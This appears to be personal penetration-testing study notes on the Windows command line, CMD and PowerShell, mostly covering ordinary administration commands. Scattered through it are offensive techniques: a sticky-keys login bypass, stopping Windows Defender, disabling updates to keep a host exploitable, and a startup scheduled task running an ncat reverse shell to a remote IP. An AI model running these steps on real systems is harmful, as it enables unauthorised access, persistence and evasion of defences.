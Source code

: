# Introduction to Windows Command Line
The scope of this module is how to navigate and administer a windows host from the commandline. These notes a written from a penetration testers perspective so the focus will be on reconnaissance, exploitation and exfiltration of data.

While tools exits to make navigating on windows machines easier for linux users, these tools usually leave traces on the host machine of our presence. What we instead can do is to "live of the land" which means using build-in commands and functionality to do our work, instead of relying on outside tools that may expose us.

## Cheat Sheet 
Useful commands will be listed in this table for the ease of use. 

### CMD
| Command | Purpose |
| ------- | --------| 
| dir | print directory |
| help  | displays a list of built-ins  |
| help \<commandName> |dispaly helpul information about the <commandName> |
| cls | clears the command prompt |
| systeminfo | prints information about the system | 
| ipconfig | shows networking information |
| doskey /history | prints a history of used commands | 
| cd | prints current working directory |
| cd \<dir>| change directory to the dir in argument | 
| tree | explore the file system tree with your current working directory as the root | 
| md or mkdir | creates a subdir in the current working directory with the name given in argument 1 |
| rd or rmdir | does the opposite of md and mkdir, it removes the directory specified in argument 1 |
| find "string" | like grep on Linux |
| del or erase | deletion tool | 

## Command Prompt vs Powershell
### Command Prompt
The command prompt was released in 1981 and have a lot of limitation compared to its younger brother "Powershell". Command Prompt does for example not support aliases for its command, it cannot pass command output to a new command.
Commands has to be run one at a time. 
* Output is pure text

### Powershell 
* Can use command aliases.
* cmdlet output can be passed to another cmdlet
* All output is in the form of an object
* Can execute a sequence of commands
* Has an integrated Scripting Enviroment 
* Works on Linux


## Command Prompt Basics
The command prompt binary is called cmd.exe or CMD.exe windows have a casual attitude towards capitalized letters. It is based on the COMMAND.COM interpreter in DOS.

### Access CMD
windows key + r type `cmd`
executing the executable from its path:
`C:\Windows\System32\cmd.exe`

### Basic Usage
Use the command `dir` to look around the the current directory, which should be denoted `C:\Users\<userName>`.   

#### Windows Recovery Trick
When booting from a windows installation disk we can initialize repair mode which launches a command prompt. From here we can overwrite the `sethc.exe` executeable with the `cmd.exe` now when we are at the login  screen we can press **shift** 5 times to open a command prompt with NT 

### Getting Help
When having trobule in the Command Prompt the `help` command is a useful tool with an argument is prints a list of system built-ins commands and gives a short despriction of their purpose. If you call the help command with another built-ins command as the argument it will display helpful information about the built-in command.

Some commands dont have a detailed section for the `help` command, but a reference to their own like `ipconfig` 
```
> help ipconfig

This command is not supported by the help utility. Try "ipconfig /?".
```

### History 
Come on, don't look at a mans CLI history... Well if you have to then use `doskey /history`
It will print a newline terminated list with previous commands regardless of the commands where valid or not. 

#### shortcuts
| key | description | 
| --- | ----------- |
| page up | Place the first command in the history | 
| page down | place the last command in the history | 
| up arrow | scroll one command back in the hisotry | 
| down arrow | scroll one command forward in the history |
| right arrow | Types the previous command one char at a time |
| F3 | retype previous command | 
| F5 | cycle through previous commands | 
| F7 | Opens an interactive list of previous commands |
| F9 | Enter a command to our prompt based on number, number corrosponds to commands in our history |

### Exit a Process
like with linux **ctrl + c** will abort a running process  

## System Navigation
we can use `cd` or `chdir` with arguments to print our current working directory.
To change directory we can add the directory we want to move to, to the 1st argument of `cd` to move there. 

Note that `C:\` is the root directory of a Windows machine. Historically drive A and B were for floppy disk so the thirds drive C was the harddrive. On modern computers there are no longer floppy disk slots but C:\ being the root of the windows system is still the case for legacy reasons.

Like Linux, Windows can also use relative and absolute pathing. Remember to note what drive you are in when using absolute paths. 

Using the `tree` command we can print a comprehensive view of the filesystem tree with our current working directory as the root of the tree.
with the `/F` parameter we can also get the files in the folders with the `tree` command

### Interesting Directories

| Name: |	Location:¨|	Description:|
|--|---|---
%SYSTEMROOT%\Temp |	C:\Windows\Temp |	Global directory containing temporary system files accessible to all users on the system. All users, regardless of authority, are provided full read, write, and execute permissions in this directory. Useful for dropping files as a low-privilege user on the system. |
|%TEMP% |	C:\Users\<user>\AppData\Local\Temp |	Local directory containing a user's temporary files accessible only to the user account that it is attached to. Provides full ownership to the user that owns this folder. Useful when the attacker gains control of a local/domain joined user account.|
| %PUBLIC% |	C:\Users\Public |	Publicly accessible directory allowing any interactive logon account full access to read, write, modify, execute, etc., files and subfolders within the directory. Alternative to the global Windows Temp Directory as it's less likely to be monitored for suspicious activity. |
|%ProgramFiles% |	C:\Program Files |	folder containing all 64-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system. |
|%ProgramFiles(x86)% |	C:\Program Files (x86) |	Folder containing all 32-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system.|


### Managing Directories
With the command `md <dirName>` we can create a directory. `md` is short for `mkdir` which performs the same operation.

we can remove directories with the `rd` or `rmdir` commands.

Trying to remove a non-empty directory will result in failure however. Unless given the paramter `/S`. 

#### Modify
Directories holds data, other directories, and files which also holds data. Therefore modifying them is a complex task that we let commands do for us:
* Move 
* Robocopy
* xcopy

`move <source> <destination>` like its Linux cousin `mv` we input 1st what we want to move, then as 2nd argument where we want to move it to.

`xcopy <source> <destination>` Like the name implies this command copies the source file to the destination. If given a directory xcopy will copy files and subdirectories however not empty subdirectories unless `/E` is given. xcopy will reset file and dir attributes unles the `/K` switch is passed.

`robocopy`is the successor of xcopy with more options and utilities. 
robocopy can move accross drives and networks while stile maintaining file data, attributes, ownership, ACLs, and any flags set like hidden or read-only.

If a user does not have permission to copy files we can use the `/MIR` switch, this will however mark the files as backup and hide them, which can be prevented with the `/A-:SH`(attribute show hidden). If you dont want to commit to the copy you can use the `/L` to see a preview of the operation without it executing, a good idea if you are not 100% certain of what you are doing. 

example:
`robocopy /E /MIR /A-:SH C:\Users\htb\Desktop\notes\ C:\Users\htb\Documents\Backup\Files-to-exfil\`

### Files
The `more` command displays the content of a file starting from the head until the terminal cannot show more, you can scroll further in the file with enter. Use the switch `/S` to crunch blanks spaces down to a single line.

outputs can be piped to more with the `|` symbol `ipconfig | more`

`openfiles` is an admin command that lets us see what files the users on our host has opened

`type` can display the contents of multiple text files at once. It uses a non locking operation to do so. 

`type` can also direct its output to other files `type secrets.txt >> exposed.txt`

#### Create and modify 
`echo` can be used to print something to the terminal and like on Linux can be used to write and append to a file 

`echo something > text.txt` 

`echo more things >> text.txt`

`fsutil` filesystem utility lets us create a file. 

`fsutil createNew for-sure.txt 222`

`ren` ren(ame) allows the user to rename a file (arg1) to something else (arg2)

#### Input / Output

**<, >, |, &** can be used to direct input and output to and from commands. 

**&&** can be used between two statemenets to run statement a and if it succeeds run b

**||** can be used similiarly but statement b only gets executed if a fails. 

#### Deleting Files
For deletion we can use `del` which also has the alias `erase`.  
```
> help erase
Deletes one or more files.

DEL [/P] [/F] [/S] [/Q] [/A[[:]attributes]] names
ERASE [/P] [/F] [/S] [/Q] [/A[[:]attributes]] names
  /P            Prompts for confirmation before deleting each file.
  /F            Force deleting of read-only files.
  /S            Delete specified files from all subdirectories.
  /Q            Quiet mode, do not ask if ok to delete on global wildcard
  /A            Selects files to delete based on attributes
  attributes    R  Read-only files            S  System files
                H  Hidden files               A  Files ready for archiving
                I  Not content indexed Files  L  Reparse Points
                O  Offline files              -  Prefix meaning not
```

#### Copying and moving files
cope and move can be used for these desired operations.
use /v to increase verbosity given you validation after the operation.

## System Information
Now that we have found our feet on a windows host it is time to **Gather System Information.**

In *any* offensive scenario it is important to enumerate the systems which are targeted. This can be done from outside but certainly also from the inside.

What kind of information could be interesting?

* General System Information
* Networking Information
* Basic Domain Information
* User Information

These are not the only types of information that can prove useful, but it does give us an idea of what kind of information that is relevant and what is not. 

**REMEMBER** to stay in scope! Your white hat can easily stain if you forget the scope and stick your nose in data you are not at liberty to see.

### How to get Information
#### The Big One
`systeminfo` I don't even have to tell you what this does, for you to know this might be useful command, right?

* Host-Name
* Operating Systen information
* Hardware Information
* Timezone
* Language(keyboard input, System)
* Hotfixes
* Network Card information

Thats a lot of information. 

#### The Others
`hostname` prints the hostname

`ver` what version of windows the system is running. 

`ipconfig` Network information

`arp /a` Prints the content of the systems Address Resolution Protocol cache 

`whoami` display the username of the user currently logged in. 

`whoami /priv` what are my priviledges

`whoami /groups`what groups am i part of 

`net user` display a list of all users on the host.

`net group` (only works on a windows domain controller) display information about groups on the host

`net localgroup` can be run on any windows host. Display information about groups on the host

`net share` view or create shared resources on the host.

`new view` 

## Finding Files and Directories

* `where` we can use where to find files that we input to it, if they exist in or cwd or paths. `where flag.txt` is a good one for CTF's
  * `where /R <path> <file> ` to find files Recursivly in a directory.
* `find <search-string> <path-to-file>` 
  * /V print any line that does NOT contain the search-string
  * /N print line number with the matched string
  * /I disable case sensitivity
* `findstr`is a grep like command
* `comp` compare files
* `fc` a more comprehensive tool for comparing files
* `sort` sort agr1 can be directed with the output switch /O 
  * `sort /unique` no dublets

## Environment Variables
`%SUPER_IMPORTANT_VARIABLE%` Capital letter with underscore for spacing is a standard, not a requirement for Environment Variables. 

Global vs Local Variables.
* Global: The data can be accessed from anywhere
* Local: The data can only be referenced inside the scope it was declared.

the `%WINDIR%` variable is a global variable that any user can call to get the path to the `Windows` directory.

If user A was to identify a variable like 
```
>set SECRET=FLAG{This_is_it!}
>echo %SECRET%
{This_is_it!}
```
But when i log in as user B
```
>echo %SECRET%
%SECRET%
```

Another type is scoping is the System scope and the user scope.

There is also the more volatile scope that is called the process scope. 

|Scope | 	Description |	Permissions Required to Access |	Registry Location |
| ----| ---- | ---- | ----- |
| System  (Machine) |	The System scope contains environment variables defined by the Operating System (OS) and are accessible globally by all users and accounts that log on to the system. The OS requires these variables to function properly and are loaded upon runtime. |	Local Administrator or Domain Administrator |	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment |
|User |	The User scope contains environment variables defined by the currently active user and are only accessible to them, not other users who can log on to the same system. |	Current Active User, Local Administrator, or Domain Administrator 	| HKEY_CURRENT_USER\Environment |
| Process |	The Process scope contains environment variables that are defined and accessible in the context of the currently running process. Due to their transient nature, their lifetime only lasts for the currently running process in which they were initially defined. They also inherit variables from the System/User Scopes and the parent process that spawns it (only if it is a child process).| 	Current Child Process, Parent Process, or Current Active User |	None (Stored in Process Memory)|

we can use `set` and `echo` to view the data in a variable.

### set and setx
`set` can be used to display, set and remove environment variables, but it only work in the current scope. 

`setx` makes permanent changes to the registry. 

#### Removing Varibales
setting a variable to an empty string is the way to delete them
`setx DCIP ""`

### Important Variables
| Variable Name | 	Description | 
|  --------- |  -------------- | 
| %PATH% | 	Specifies a set of directories(locations) where executable programs are located.| 
| %OS% | 	The current operating system on the user's workstation.| 
| %SYSTEMROOT% | 	Expands to C:\Windows. A system-defined read-only variable containing the Windows system folder. Anything Windows considers important to its core functionality is found here, including important data, core system binaries, and configuration files.| 
| %LOGONSERVER% | 	Provides us with the login server for the currently active user followed by the machine's hostname. We can use this information to know if a machine is joined to a domain or workgroup.| 
| %USERPROFILE% | 	Provides us with the location of the currently active user's home directory. Expands to C:\Users\{username}.| 
| %ProgramFiles% | 	Equivalent of C:\Program Files. This location is where all the programs are installed on an x64 based system.| 
| %ProgramFiles(x86)% | 	Equivalent of C:\Program Files (x86). This location is where all 32-bit programs running under WOW64 are installed. Note that this variable is only accessible on a 64-bit host. It can be used to indicate what kind of host we are interacting with. (x86 vs. x64 architecture) | 

## Managing Services
The service controller program `sc` allows the user to: 
* Determine what services are running
* Modify existing services
* disable/ enable running services

`sc` works by giving it queries. We can query it by:
* process state
* process id
* service type

`sc query type= service` lists all running services ( Notice the space between `=` and "service" syntax wise this space is not optional! )

`sc query windefend` displays windefend also known as Windows Defender.

`sc stop windefend` stops the specified process, might require admin priviledges or even System.

`sc start windefend` starts the specified process, might require admin priviledges

we can also configure services with sc:
`sc config wuauserv start= disabled` we have now disabled this service (windows update) so it cant start.

if someone tries 
```
sc start wuauserv
[SC] StartService FAILED 1058:

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
``` 
This can be very useful if the host you are doing this on is running outdated software, which you intend to exploit.

you can undo the disabled command with a new start type `start= auto`

Remember to be careful. Disabling services is bound to be monitorized by a good blue team especially the essential services that comes with Windows. 

### Tasklist
`tasklist` can be used to print all running processe to the terminal. pipe with `| find "something"` to filter.
use the `/svc` switch to only list running services.


### Net Start
`net start` list all running services on our system. `net stop` `net pause` `net continue` are also valid commands with `net`.

### WMIC 
The Windows Management Instrumental Command is a big CLI executable with a lot of features. 
`wmic service list brief`
(This tool is however deprecated)

## Working with Scheduled Tasks
Scheduled Tasks is as the name implies: command(s) that are set to run in an automated frequency. 

These are great for automating maintainance on a system.
* Deleting old log files
* Taking backups 
* Health Checks

But they can also be used for malicious activities. Like persistance on a system. 

### Triggers That Can Kick Off a Scheduled Task
* When a specific system event occurs.
* At a specific time.
* At a specific time on a daily schedule.
* At a specific time on a weekly schedule.
* At a specific time on a monthly schedule.
* At a specific time on a monthly day-of-week schedule.
* When the computer enters an idle state.
* When the task is registered.
* When the system is booted.
* When a user logs on.
* When a Terminal Server session changes state.

### How to Utilize Scheduled Tasks 
`schtasks` 

### Query Syntax
| Action | 	Parameter |	Description |
| ----- | --------- |------------- |
|Query 	|	|Performs a local or remote host search to determine what scheduled tasks exist. Due to permissions, not all tasks may be seen by a normal user.|
|	|/fo 	|Sets formatting options. We can specify to show results in the Table, List, or CSV output.|
||	/v 	|Sets verbosity to on, displaying the advanced properties set in displayed tasks when used with the List or CSV output parameter.|
||	/nh 	|Simplifies the output using the Table or CSV output format. This switch removes the column headers.|
||	/s 	|Sets the DNS name or IP address of the host we want to connect to. Localhost is the default specified. If /s is utilized, we are connecting to a remote host and must format it as "\\\host".|
||	/u 	|This switch will tell schtasks to run the following command with the permission set of the user specified.|
||	/p 	|Sets the password in use for command execution when we specify a user to run the task. Users must be members of the Administrator's group on the host (or in the domain). The u and p values are only valid when used with the s parameter.|

`SCHTASKS /Query /V /FO list` this command can be run with 

### Create Syntax
|Action |	Parameter |	Description |
| ----- | ------- | ---------- |
|Create |	|	Schedules a task to run.|
||	/sc |	Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.|
||	/tn |	Sets the name for the task we are building. Each task must have a unique name.|
||	/tr |	Sets the trigger and task that should be run. This can be an executable, script, or batch file.|
||	/s 	|Specify the host to run on, much like in Query.|
||	/u 	|Specifies the local user or domain user to utilize |
||	/p 	|Sets the Password of the user-specified.|
||	/mo |	Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day. |
||	/rl |	Allows us to limit the privileges of the task. Options here are limited access and Highest. Limited is the default value.|
||	/z |	Will set the task to be deleted after completion of its actions.|

Example:

`schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100 -e cmd.exe"` This scheduled task will triger on startup, be called "My Secret Task" and run ncat.exe with 172.16.1.100 (ip) and 8100 (port).

### Change Syntax
|Action |	Parameter |	Description|
|----- |	----- |	-----|
|Change| |		Allows for modifying existing scheduled tasks.|
||	/tn |	Designates the task to change|
||	/tr |	Modifies the program or action that the task runs.|
||	/ENABLE |	Change the state of the task to Enabled.|
||	/DISABLE |	Change the state of the task to Disabled.|

### Delete Syntax
|Action |	Parameter |	Description|
|------|---------|----------|
|Delete|| 		Remove a task from the schedule|
||	/tn| 	Identifies the task to delete.|
||	/s 	|Specifies the name or IP address to delete the task from.|
||	/u 	|Specifies the user to run the task as.|
||	/p 	|Specifies the password to run the task as.|
||	/f 	|Stops the confirmation warning.|


# CMD vs PowerShell
Up until now we have looked at the built-in windows command line cmd.exe. From now we will be looking at it successor PowerShell.

| Feature |	CMD |	PowerShell |
| ------ |------ |-----------|
|Language |	Batch and basic CMD commands only. |	PowerShell can interpret Batch, CMD, PS cmdlets, and aliases.|
|Command utilization |	The output from one command cannot be passed into another directly. |	The output from one command can be passed into another directly.|
|Command Output |	Text only |	PowerShell outputs in object formatting.|
|Parallel Execution |	CMD must finish one command before running another. |	PowerShell can multi-thread commands to run in parallel.|

PowerShell can be used to accomplish many task, among them:
*  Provisioning servers and installing server roles
*  Creating Active Directory user accounts for new employees
*  Managing Active Directory group permissions
*  Disabling and deleting Active Directory user accounts
*  Managing file share permissions
*  Interacting with Azure AD and Azure VMs
*  Creating, deleting, and monitoring directories & files
*  Gathering information about workstations and servers
*  Setting up Microsoft Exchange email inboxes for users (in the cloud &/or on-premises)

Powershell can be used from a terminal or Microsofts "IDE" Windows PowerShell Integrated Scripting Enviroment (ISE). 

## Prompt
Powershell commands use the `verb-noun` naming convention as you will see here.

`Get-Help` to get help with a cmdlet. 
the switch `-Online` can be used to source the help from the online repository instead of the local, ensuring the most up to date help.

`Update-Help` can be used to update the local `Get-Help` repository. 

### Navigating 
`Get-Location` print curret working directory.

`Get-ChildItem` Print items inside your current working directory.

`Set-Location` change directory works with both absolute and relative paths

`Get-Content` reads the content of a file.

`Get-Command` Can be used to find cmdlets to can remember the name of. 
  * `Get-Command -verb get`
  * `Get-Command -noun windows*`

So now we know how to `Get-Help`, `Get-Command`,`Get-Content`, `Get-Childitem` and how to `Set-Location`.

`Get-History` can be used to get a list of your previous commands, along with an ID
using `r <id>` you can rerun the command with the id provided. 

`Clear-Host` can clear the terminal. Aliases: `cls` `clear`

#### Hotkeys
|HotKey |	Description |
| ------- |--------- |
|CTRL+R |	It makes for a searchable history. We can start typing after, and it will show us results that match previous commands.|
|CTRL+L |	Quick screen clear.|
|CTRL+ALT+Shift+? |	This will print the entire list of keyboard shortcuts PowerShell will recognize.
Escape 	When typing into the CLI, if you wish to clear the entire line, instead of holding backspace, you can just hit escape, which will erase the line. |
|↑ |	Scroll up through our previous history.|
|↓ |	Scroll down through our previous history.|
|F7 |	Brings up a TUI with a scrollable interactive history from our session.|


### Aliases
PowerShell has alot of builtin aliases to make the transition from bash or cmd to PowerShell easier.

Aliases can be viewed with the `Get-Alias` cmdlet or its alias `gal`.

Set can also set aliases with `Set-Alias`. Here is an example of how it works:

`Set-Alias -Name gh -Value Get-Help` 

#### Helpful Aliases
You might recognize some of these builtin aliases from bash:
| Alias |	Description |
| ----- |------------ |
|pwd 	|gl can also be used. This alias can be used in place of Get-Location.|
|ls 	|dir and gci can also be used in place of ls. This is an alias for Get-ChildItem.|
|cd 	|sl and chdir can be used in place of cd. This is an alias for Set-Location.|
|cat 	|type and gc can also be used. This is an alias for Get-Content.|
|clear |	Can be used in place of Clear-Host.|
|curl 	|Curl is an alias for Invoke-WebRequest, which can be used to download files. wget can also be used.|
|fl and ft |	These aliases can be used to format output into list and table outputs.|
|man 	|Can be used in place of help.|


# CMDlets and Modules

## Cmdlets

Microsoft defines a cmdlet as: 
"a single-feature command that manipulates objects in PowerShell."

As mentioned earlier a cmdlet follow the Verb-Noun naming convention. 

cmdlets are not written in PowerShell but in C# or another compiled language. 

## PowerShell Modules
A module is structured PowerShell code, that is made easy to use and share. A module can consist of the following: 

* Cmdlets
* Script files
* Functions
* Assemblies
* Related resources (manifests and help files)

### Using PowerShell Modules
`Get-Module` will print a list of modules already loaded.

`Get-Module -ListAvailable` will list installed modules that have not yet been loaded.

`Import-Module` allows the user to add a module to the current session.

`Get-ExecutionPolicy` displays the execution policy use use`-list` to se the different scopes.

`Set-ExecutionPolicy` change the execution policy use `-scope Process` to limit it to the current powershell session.

`Get-Command -Module <moduleName>`  

### PowerShell Gallery and GitHub
Using the PowerShell Gallery or GitHub repositories you can find all sorts of modules you can use to enchance or tweak the PowerShell CLI to best match your needs.

With the builtin module PowerShellGet we can usee the command `Find-Module -Name <cmdname>` we can search for modules we want.
And with the pipe `|` symbol we can pipe the module into `Install-Module` to install it. 


# User and Group Management
User and group management is an integral part of a system administrator job. It is also typically an organizations biggest attack surface.  

## User Accounts
There are many accounts on a system which use different parts of the system. The types of accounts are:
* Service Accounts
* Built-in Accounts
* Local Users
* Domain Users

### Default Local User accout
| Account | Description | 
| -------- |---------- |
| Administrator | This account is used to accomplish administrative tasks on the local host. |
| Default Account | The Default Account is used by the system for running multi-user auth apps like the Xbox utility |
| Guest Account | This account is a limited rights account that allows users without a normal user account to access the host. It is disabled by default and should stay that way.|
| WDAGUtility Account | This account is in place for the Defender Application Guard, which can sandbox application sessions |

## Active Directory
Active Directory is a way to manage all computers in a domain from a central administration tool called the "Domain Controller"(DC). This way if user "Mike" needs his password reset. We do not have to go to the local user Mike in our entire organization (which theoritically could be a global organization). And manually reset the "Mike" user on each PC. 

### Local vs Domain Joined Users
Local users on a host is a user who has access to a subset of the resources on a host and has no special priviledges beyond the host. 

A domain User is a user who is recognized by all hosts and resources that adheer to the Domain Controller. This way even if user A has never logged into host B his password will still recognize the login credentials. This doesnt mean User A is given access since host B might be restricted to only special group members with priviledge. 

###  User Groups
User Groups are a way to granulate access to users in a standadized way. The logic is that a user can belong to many groups and a group can have many members. But this begs the question what does a group do for its members? Simple it grants access.

Using the example from before lets say that host B only allows logon for users who are part of group "admins-of-host-B", if we were to add User A to the group "admins-of-host-B" he would now be able to logon to host B. 

#### Add Remove Edit Users and Groups

* `Get-LocalGroup`
* `Get-LocalUser`
* `New-LocalUser -Name "name"`
* `Set-LocalUser`
* `$Password = Read-Host -AsSecureString`
* `Add-LocalGroupMember -Group "Remote Desktop Users" -Member "JLawrence"`
* `Get-LocalGroupMember -Name "Remote Desktop Users"`

By now the commands above should give you an idea of their intended use. 

### Manage Domain Users and Groups
Having the Remote System Administration Tools installed is a requirement to manage ActiveDirectory with PowerShell (atleast its the only official tool).

`Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online`

This will install all RSAT features. Confirm ActiveDirectory tools are installed:

`Get-Module -Name ActiveDirectory -ListAvailable`
#### PowerShell cmdlets

`Get-ADUser -Filter *`

This command will give us a several piece of information about the users in a domain:

* Object Class: which specifies if the object is a user, computer, or another type of object.
* DistinguishedName: Specifies the object's relative path within the AD schema.
* Enabled: Tells us if the user is active and can log in.
* SamAccountName: The representation of the username used to log into the ActiveDirectory hosts.
* ObjectGUID: Is the unique identifier of the user object.

example:
```
PS C:\htb>  Get-ADUser -Identity TSilver


DistinguishedName : CN=TSilver,CN=Users,DC=greenhorn,DC=corp
Enabled           : True
GivenName         :
Name              : TSilver
ObjectClass       : user
ObjectGUID        : a19a6c8a-000a-4cbf-aa14-0c7fca643c37
SamAccountName    : TSilver
SID               : S-1-5-21-1480833693-1324064541-2711030367-1602
Surname           :
UserPrincipalName :
```

We can also search on attributes:

`Get-ADUser -Filter {EmailAddress -like '*evil.corp'}`

[Link](https://learn.microsoft.com/en-us/archive/technet-wiki/12037.active-directory-get-aduser-default-and-extended-properties)

Now lets create a domain user!

`New-ADUser -Name "MTanaka" -Surname "Tanaka" -GivenName "Mori" -Office "Security" -OtherAttributes @{'title'="Sensei";'mail'="MTanaka@greenhorn.corp"} -Accountpassword (Read-Host -AsSecureString "AccountPassword") -Enabled $true `

Next i would like to validate 

```
Get-ADUser -Identity MTanaka -Properties * | Format-Table Name,Enabled,GivenName,Surname,Title,Office,Mail

Name    Enabled GivenName Surname Title  Office   Mail
----    ------- --------- ------- -----  ------   ----
MTanaka  True    Mori      Tanaka  Sensei Security MTanaka@greenhorn.corp
```
Here is a rundown on the different switches used:

* New-ADUser -Name "MTanaka" : We issue the New-ADUser command and set the user's SamAccountName to MTanaka.
* -Surname "Tanaka" -GivenName "Mori": This portion sets our user's Lastname and Firstname.
* -Office "Security": Sets the extended property of Office to Security.
* -OtherAttributes @{'title'="Sensei";'mail'="MTanaka@greenhorn.corp"}: Here we set other extended attributes such as title and Email-Address.
* -Accountpassword (Read-Host -AsSecureString "AccountPassword"): With this portion, we set the user's password by having the shell prompt us to enter a new password. (we can see it in the line below with the stars)
* -Enabled $true: We are enabling the account for use. The user could not log in if this was set to \$False

We can also edit the domain user if we messed something up.

`Set-ADUser -Identity MTanaka -Description " Sensei to Security Analyst's Rocky, Colt, and Tum-Tum"`

## Working with Files and Directories
### Common Commands Used for File & Folder Management
| Command |	Alias |	Description |
| -------- |---- |------------- |
|Get-Item | 	gi | 	Retrieve an object (could be a file, folder, registry object, etc.) |
|Get-ChildItem | 	ls / dir / gci | 	Lists out the content of a folder or registry hive. |
|New-Item |	md / mkdir / ni |	Create new objects. ( can be files, folders, symlinks, registry entries, and more)|
|Set-Item |	si 	|Modify the property values of an object.|
|Copy-Item | 	copy / cp / ci |	Make a duplicate of the item.|
|Rename-Item| 	ren / rni |	Changes the object name.|
|Remove-Item |	rm / del / rmdir |	Deletes the object.|
|Get-Content |	cat / type |	Displays the content within a file or object.|
|Add-Content |	ac |	Append content to a file.|
|Set-Content |	sc |	overwrite any content in a file with new data.|
|Clear-Content |	clc |	Clear the content of the files without deleting the file itself.|
|Compare-Object |	diff / compare |	Compare two or more objects against each other. This includes the object itself and the content within.|

#### Combining with pipes

`get-childitem -Path *.txt | rename-item -NewName {$_.name -replace ".txt",".md"}`

This command pipes all items with the suffix `.txt` into the `rename-item` command preserving the name with `$_.name` and only replacing the .txt part with .md.
A useful command for bulk work. 

### File and Directory Permissions
* Full Control
* Modify 
* List Folder Contents
* Read and Execute
* Write 
* Read
* Traverse Folder 

By default inheritance from permission on a parent folder is granted to all its children. However this default behavior can be disabled allowing 

## Finding and Filtering Content
Remember earlier when we touched on the fact that PowerShell unlike cmd.exe utilize objects over plain text return type? 

Unlike bash and cmd.exe eveything in PowerShell is an object. But what is an object? 

Well an object is an instance of a class, which is like a schema of how an object from the class is supposed to look. 

Lets take a simple example
```
Class Person:
  string fullName;
  date birthday;
  string gender;
  int height;
  int weight;
```
Here i mocked up how the class "Person" could look. If we fill out the given variables we would have a person object like `("Harry James Potter, 31-07-1980, male, 180, 80")`

Now a class can also have assosiated methods its ways we can interact with an object to be given more or less information about it or maybe we want the information formatted in a specific way. 

Lets leave Harry (and the metaphor) in the Cupboard my fellow muggles and return to PowerShell.
###
`Get-LocalUser administrator | get-member`
```
   TypeName: Microsoft.PowerShell.Commands.LocalUser

Name                   MemberType Definition
----                   ---------- ----------
Clone                  Method     Microsoft.PowerShell.Commands.LocalUser Clone()
Equals                 Method     bool Equals(System.Object obj)
GetHashCode            Method     int GetHashCode()
GetType                Method     type GetType()
ToString               Method     string ToString()
AccountExpires         Property   System.Nullable[datetime] AccountExpires {get;set;}
Description            Property   string Description {get;set;}
Enabled                Property   bool Enabled {get;set;}
FullName               Property   string FullName {get;set;}
LastLogon              Property   System.Nullable[datetime] LastLogon {get;set;}
Name                   Property   string Name {get;set;}
ObjectClass            Property   string ObjectClass {get;set;}
PasswordChangeableDate Property   System.Nullable[datetime] PasswordChangeableDate {get;set;}
PasswordExpires        Property   System.Nullable[datetime] PasswordExpires {get;set;}
PasswordLastSet        Property   System.Nullable[datetime] PasswordLastSet {get;set;}
PasswordRequired       Property   bool PasswordRequired {get;set;}
PrincipalSource        Property   System.Nullable[Microsoft.PowerShell.Commands.PrincipalSource] PrincipalSource {ge...
SID                    Property   System.Security.Principal.SecurityIdentifier SID {get;set;}
UserMayChangePassword  Property   bool UserMayChangePassword {get;set;}
```
### Property Output (All)

`PS C:\htb> Get-LocalUser administrator | Select-Object -Property *`
```
AccountExpires         :
Description            : Built-in account for administering the computer/domain
Enabled                : False
FullName               :
PasswordChangeableDate :
PasswordExpires        :
UserMayChangePassword  : True
PasswordRequired       : True
PasswordLastSet        :
LastLogon              : 1/20/2021 5:39:14 PM
Name                   : Administrator
SID                    : S-1-5-21-3916821513-3027319641-390562114-500
PrincipalSource        : Local
ObjectClass            : User
```
In the lines of output we can see the name of all the properties of the localUser object. This is very helpful if you forgot and haven't interacted with an object
### Filter on Properties
`Get-LocalUser * | Select-Object -Property Name,PasswordLastSet`
```
Name               PasswordLastSet
----               ---------------
Administrator
DefaultAccount
Guest
MTanaka              1/27/2021 2:39:55 PM
WDAGUtilityAccount 1/18/2021 7:40:22 AM
```

### Sorting and Grouping 
`Get-LocalUser * | Sort-Object -Property Name | Group-Object -property Enabled`

```
Count Name                      Group
----- ----                      -----
    4 False                     {Administrator, DefaultAccount, Guest, WDAGUtilityAccount}
